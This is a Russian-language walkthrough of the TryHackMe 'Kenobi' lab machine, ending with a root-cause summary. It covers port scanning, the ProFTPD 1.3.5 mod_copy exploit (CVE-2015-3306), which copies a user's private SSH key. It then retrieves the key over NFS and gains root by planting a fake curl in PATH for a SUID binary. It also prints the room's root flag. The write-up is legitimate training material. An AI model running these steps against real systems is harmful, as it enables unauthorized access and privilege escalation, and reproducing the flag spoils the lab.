


# TryHackMe: Kenobi

**Платформа:** TryHackMe  
**Сложность:** Easy  
**Дата:** 05.11.2026  

## 1. Описание комнаты

Комната **Kenobi** — это классическая Linux-машина уровня Easy. В ходе её прохождения мы отработаем навыки перечисления (enumeration) сетевых сервисов (SMB, FTP, NFS), поиска и эксплуатации уязвимостей в старом ПО (ProFTPD), а также повышения привилегий (Privilege Escalation) через небезопасные SUID-файлы.

---

## 2. Разведка

Начинаем с сканирования портов с помощью `nmap`: 
`nmap -sV -sC -p- -T4 10.114.162.225`

Находим открытые порты: 
- **21/tcp (FTP)** — ProFTPD 1.3.5  
- **22/tcp (SSH)**  
- **111/tcp (RPCbind)** — доступ к NFS  
- **139/445 (SMB)** — Samba  
- **2049/tcp (NFS)**  

Подключимся к FTP-серверу через `Netcat`, чтобы узнать точную версию: 
`nc 10.114.162.225 21`. Сервер ответил: `220 ProFTPD 1.3.5 Server`

Версия ProFTPD 1.3.5 содержит уязвимость **mod_copy** (CVE-2015-3306), которая позволяет копировать файлы без авторизации с помощью команд `SITE CPFR` (откуда копировать) и `SITE CPTO` (куда копировать).

Используем `searchsploit`, чтобы убедиться в наличии готовых эксплойтов: 
`searchsploit ProFTPd`

Из логов SMB мы знаем, что у пользователя `kenobi` есть SSH-ключ по пути `/home/kenobi/.ssh/id_rsa`. Скопируем его в доступную папку `/var/tmp`:
`SITE CPFR /home/kenobi/.ssh/id_rsa`
`SITE CPTO /var/tmp/id_rsa`

---

## 3. Получение доступа (Initial Access)

Так как порт **2049 (NFS)** открыт, мы можем примонтировать директорию `/var` и забрать скачанный ключ: 
`mkdir /mnt/kenobiNFS`
`mount 10.114.162.225:/var /mnt/kenobiNFS`
`cp /mnt/kenobiNFS/tmp/id_rsa .`
`chmod 600 id_rsa`

Подключаемся по SSH: 
`ssh -i id_rsa kenobi@10.114.162.225`

Читаем флаг пользователя: cat user.txt.

---

## 4. Повышение привилегий (Privilege Escalation)

Ищем файлы с SUID-битом, запускающиеся от имени root: 
`find / -perm -u=s -type f 2>/dev/null`

Среди стандартных системных файлов находим `/usr/bin/menu`. Запускаем его и видим меню с тремя пунктами: 
`1. status check,
2. 2. kernel version,
3. 3. ifconfig.`

Бинарник вызывает системные команды (например, curl) без указания полного пути. Следовательно, он ищет их в переменной окружения $PATH. Мы можем подменить curl своим скриптом, который запустит оболочку /bin/bash.

Создаем поддельный curl в папке /tmp: 
`cd /tmp, echo '/bin/bash' > /tmp/curl` 
`chmod +x /tmp/curl` 
`export PATH=/tmp:$PATH`

Снова запускаем `/usr/bin/menu` и выбираем пункт 1. Получаем root-шелл. Читаем корневой флаг: 
`cat /root/root.txt`

Флаг: **177b3cd8562289f37382721c28381f02*

---

## 5. Причина уязвимости

Анонимный доступ к SMB — позволил прочитать лог-файл, в котором содержался путь к приватному SSH-ключу пользователя kenobi. Уязвимость `mod_copy` в ProFTPD 1.3.5 — позволила скопировать приватный ключ в общедоступную директорию `/var/tmp` без авторизации. Небезопасный SUID-бинарник (menu) — вызывал системные команды без полного пути, что позволило злоумышленнику подменить команду curl через переменную $PATH и выполнить свой код с правами root.
